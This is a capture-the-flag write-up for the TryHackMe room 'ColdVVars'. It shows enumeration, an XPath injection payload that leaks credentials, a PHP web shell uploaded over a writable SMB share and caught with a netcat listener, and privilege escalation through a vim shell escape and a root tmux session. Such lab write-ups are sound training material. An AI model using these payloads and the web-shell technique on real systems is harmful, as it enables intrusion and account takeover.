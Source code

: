 # 87 - ColdVVars (XPath Injection, TMUX eploitation)

Room Link --> [https://tryhackme.com/room/coldvvars](https://tryhackme.com/room/coldvvars)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vvv -T4 10.10.156.47 -sV -p-

PORT     STATE SERVICE     VERSION
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
8080/tcp open  http        Apache httpd 2.4.29 ((Ubuntu))
8082/tcp open  http        Node.js Express framework
```
{% endcode %}

#### Port 8080

After a quick gobuster I found a new endpoint /dev, can use OPTIONS to bypass the 403,405

```
http://10.10.236.49:8080/dev/
http://10.10.236.49:8080/dev/note.txt
```

```bash
curl 10.10.236.49:8080/dev/note.txt 
```

Contents:

```
Secure File Upload and Testing Functionality
```

#### Port 8082

Home page

```
http://10.10.236.49:8082
```

<figure><img src=".gitbook/assets/image (575).png" alt=""><figcaption></figcaption></figure>

In the room description, it says "XPath Injection".

* Going through [https://book.hacktricks.xyz/pentesting-web/xpath-injection](https://book.hacktricks.xyz/pentesting-web/xpath-injection)

<figure><img src="https://github.com/CyberLola/COLDVVARS/raw/main/coldvvar/xpath.png" alt=""><figcaption></figcaption></figure>

* Great! Let's try that one then!! Insert `" or 1=1 or "` in the username field ...

<figure><img src="https://github.com/CyberLola/COLDVVARS/raw/main/coldvvar/coldvvar6.png" alt=""><figcaption></figcaption></figure>

* And the credentials we need are the last ones in the list!!

```bash
ArthurMorgan : DeadEye
```

Try them ou for the SMB server.

{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads$ smbclient //10.10.156.47/SECURED -U ArthurMorgan

smb: \> ls
  .                                   D        0  Tue Nov 21 18:34:26 2023
  ..                                  D        0  Thu Mar 11 13:52:29 2021
  note.txt                            A       45  Thu Mar 11 13:19:52 2021

		7743660 blocks of size 1024. 4497376 blocks available
```
{% endcode %}

It has `note.txt` , same as the `/dev` directory with note.txt file inside and we have Write Permission meaning we can upload a php web shell.

```bash
smb: \> 
smb: \> put shell.php 
putting file shell.php as \shell.php (16.1 kb/s) (average 16.1 kb/s)
smb: \> ls
  .                                   D        0  Tue Nov 21 18:39:07 2023
  ..                                  D        0  Thu Mar 11 13:52:29 2021
  note.txt                            A       45  Thu Mar 11 13:19:52 2021
  shell.php                           A     9304  Tue Nov 21 18:39:08 2023

		7743660 blocks of size 1024. 4497364 blocks available

```

Setup NC listener and navigate to [http://10.10.156.47:8080/dev/shell.php](http://10.10.156.47:8080/dev/shell.php)

And we got shell.

<figure><img src=".gitbook/assets/image (576).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to ArthurMorgan

We just tried the password we used for the SMB server and it worked.

`su ArthurMorgan`&#x20;

### Priv Esc to Marston

When we type `env` we see an OPEN\_PORT variable.

```
OPEN_PORT=4545
```

```bash
# connect to it via NC.
ArthurMorgan@incognito:~$ nc -nvlp 4545
nc -nvlp 4545
Listening on [0.0.0.0] (family 0, port 4545)
Connection from 127.0.0.1 34874 received!


ideaBox
1.Write
2.Delete
3.Steal others' Trash
4.Show'nExit
```

Selecting it launches VIM, and we can exploit it with GTFOBINS

```bash
:!/bin/bash
```

We get a shell as Marston user.

### Priv Esc to root

When we type `ps aux | grep aux` we see Marston user is running some tmux session.

```bash
marston@incognito:~$ ps aux | grep tmux
ps aux | grep tmux
marston    962  0.0  0.4  28660  2440 ?        Ss   18:18   0:00 tmux new-session -d
marston   2021  0.0  0.2  13144  1028 pts/23   S+   18:32   0:00 grep --color=auto tmux

marston@incognito:~$ tmux ls 	
tmux ls
0: 9 windows (created Tue Nov 21 18:18:39 2023) [80x24]
```

{% hint style="info" %}
A tmux session has 9 opened windows.
{% endhint %}

```bash
# we just kill a few and leave the one running as root.
tmux attach-session -t 0
```

Done!


